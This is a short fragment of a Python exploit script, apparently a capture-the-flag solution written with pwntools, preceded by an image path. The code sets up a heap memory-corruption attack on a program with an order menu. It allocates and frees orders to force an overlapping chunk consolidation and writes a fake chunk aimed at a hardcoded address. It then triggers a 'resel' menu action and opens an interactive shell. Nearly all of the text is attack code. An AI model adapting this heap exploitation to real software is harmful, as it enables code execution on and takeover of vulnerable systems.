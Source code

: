 ```python
add_order('B'*46) # 3, 0x50
add_order('C')    # 4, 0x20
add_order('V')    # 5, 0x20

remove_order(3)
remove_order(4)
remove_order(2) # overlapping consolidation

RESELLER = 0x0804b06c
fake_order = 'A'*12 + p32(RESELLER-12)
add_order('A'*0xe0 + fake_order)

remove_order(1)
add_order('X')

menu('resel')
p.interactive()
```
